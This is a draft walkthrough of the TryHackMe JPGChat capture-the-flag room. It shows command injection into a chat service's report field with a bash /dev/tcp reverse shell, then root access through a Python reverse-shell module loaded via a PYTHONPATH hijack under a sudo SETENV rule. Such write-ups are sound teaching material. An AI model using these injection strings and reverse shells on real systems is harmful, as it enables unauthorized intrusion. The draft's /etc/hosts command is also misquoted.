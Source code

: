 ```yaml
---
layout: post
title: JPGChat CTF Writeup [DRAFT]
---
```


This is my first CTF Writeup, in this case for the [JPGChat room on TryHackMe](https://tryhackme.com/room/jpgchat).

## Enumeration
We first add an entry to */etc/hosts*:

```bash
echo "10.10.A.B jpgchat.thm >> /etc/hosts"
```

Nmap show only ports 22 and 3000 open.

> add nmap screenshot

To interact with port 3000 we tried telnet and received the following text:
```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
> Mention the hint on tryhackme
So we use nc now to interact:

```bash
echo "[REPORT]" | nc jpgchat.thm 3000
```

And we have some more details:

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
this report will be read by Mozzie-jpg
your name:
```

To found the repository, we went github.com and searched for users https://github.com/search?q=Mozzie-jpg&type=users

The repository is: https://github.com/Mozzie-jpg/JPChat

And looking through the code we discovered a line:

```python
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
```

## User Flag

So what we need is to escape a bash command to get a reverse shell:

echo "[REPORT]\n username \n 0<&196;exec 196<>/dev/tcp/10.11.X.Y/4243; bash <&196 >&196 2>&196;" | nc jpgchat.thm 3000

> Mention about the semicolon


Remember to have have nc listening on the specific port in your attack machine:

```bash
nc -lvnp 4243
```

Now as **wes** user, we found the user.txt flag.

## Root flag:

```bash
sudo -l:
User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

So we can do library hijacking because we can use the SETENV to change the PYTHONPATH.

We check the python script first:
```bash
wes@ubuntu-xenial:~$ cat /opt/development/test_module.py
```
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

So what we need is to create a compare.py file in a custom PYTHONPATH that will spawn a reverse shell:

```bash
cd /tmp

echo "import sys,socket,os,pty;s=socket.socket();s.connect(('10.11.X.Y',int('8042')));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/sh')" > compare.py
```

Finally we can run this sudo command to get a root reverse shell:

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/development/test_module.py
```
